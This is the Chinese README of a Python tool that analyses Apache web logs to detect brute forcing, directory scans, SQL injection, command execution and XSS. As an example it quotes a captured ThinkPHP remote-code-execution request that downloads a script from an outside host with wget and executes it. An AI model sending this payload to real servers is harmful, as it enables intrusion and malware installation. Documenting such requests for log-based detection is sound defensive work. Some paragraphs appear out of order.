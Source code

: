 ### 基于python的web日志分析工具
#### 简介
&emsp;&emsp;当前web服务面临的安全威胁越来越多，基本上任何一台连接互联网的服务器都被不同程度的扫描过，甚至有一些被攻击过。而对web日志进行分析无疑是发现威胁，以及攻击溯源的重要手段。开发该工具旨在减轻安全人员的压力，更加快速准确的发现安全威胁。
#### 功能实现
&emsp;&emsp;考虑到当前能力和资源均有限，该工具主要是发现一些现有的，比较常见的威胁，并且初期的版本将只针对常见的攻击和扫描进行识别，并对一些简单的攻击进行溯源。分析的日志目前也比较单一，主要是apache的标准web日志。预计在项目进行过程中将会根据实际情况进行必要的拓展。结合最近手动分析的一些web日志，我们发现了一些威胁出现的频率非常高，这里面出现最频繁的就是密码爆破和后台目录扫描，因此对这两种威胁的发现也将是该工具实现功能的重点。除此之外，也有少数但后果相当严重的威胁来源于对远程代码执行漏洞的攻击和一些获取webhell的攻击。其他攻击目前基本没有发现，大概是因为笔者的服务器价值不高，且无论服务器价值，高级的攻击都不常见。

    一段命令执行的请求：185.244.25.128 - - [31/Jan/2019:05:47:12 +0800] "GET /index.php?s=/index/%5Cthink%5Capp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]=wget%20http://infinityondemand.club/bins/infinity.sh;%20chmod%20+x%20infinity.sh;%20sh%20infinity.sh%20 HTTP/1.1" 200 54340 "-" "Go-http-client/1.1"
    该请求出正常要求外还会下载一个脚本，修改权限并执行该恶意脚本。
综合各种情况，该工具将实现对以下威胁的识别：（不完全）
面设计，使用的技术基于pyqt。软件各项功能均基于python实现。具体技术细节日后将在后续的日志中逐一进行完善。
1. 目录爆破
2. 密码爆破
3. SQL注入
4. 命令执行
5. xss利用
6. 其他待定
#### 使用的技术
&emsp;&emsp;为使软件的使用更加便捷，该工具基于图形界